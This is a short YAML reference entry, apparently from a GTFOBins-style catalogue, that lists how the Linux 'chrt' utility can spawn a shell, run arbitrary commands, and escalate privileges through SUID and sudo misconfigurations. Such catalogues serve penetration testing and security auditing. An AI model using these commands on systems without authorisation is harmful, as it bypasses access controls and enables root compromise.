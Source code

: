 ```yaml
---
functions:
  shell:
    - code: chrt 26 /bin/sh
  command:
    - code: |
        COMMAND='/usr/bin/id'
        chrt 26 "$COMMAND"
  suid:
    - code: ./chrt 26 sh -p -c 'reset; exec sh -p 1>&0 2>&0'
  sudo:
    - code: sudo chrt 26 /bin/sh
---
```


